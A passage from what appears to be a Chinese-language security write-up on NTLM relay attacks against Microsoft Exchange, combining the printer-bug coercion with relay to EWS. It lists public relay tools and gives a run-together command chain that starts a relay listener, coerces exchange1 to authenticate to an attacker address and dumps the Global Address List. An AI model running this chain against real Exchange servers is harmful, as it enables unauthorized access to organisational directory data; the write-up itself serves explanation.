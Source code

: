   

![](https://gitee.com/fuli009/images/raw/master/public/20210815133414.png)

  

但exchange默认EPA是不会开启的。下面就是找一个relay的接口，就可以进行我们的攻击了，这里选择的EWS，EWS具有下面功能

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133415.png)

然后配合打印机漏洞便可进行攻击，攻击链如下：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133416.png)

  

需要的工具：

  

https://github.com/quickbreach/ExchangeRelayX

https://github.com/dirkjanm/krbrelayx/

https://github.com/SecureAuthCorp/impacket/blob/master/examples/exchanger.py

  

命令：

  

  *   *   * 

    
    
    exchangeRelayx.py -t exchange2 address -l 0.0.0.0printerbug.py domain/user:password@exchange1 attackaddressexchanger.py domain/user:password@exchange1 nspi dump-tables -name GAL

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133417.png)

  

此类攻击在2021被修复。

  

从域认证到exchange rce

  

首先，exchange的机器账户默认属于本地管理员组

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133418.png)

  

然后作者说了几种relay场景以及为什么不能进行relay

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133419.png)
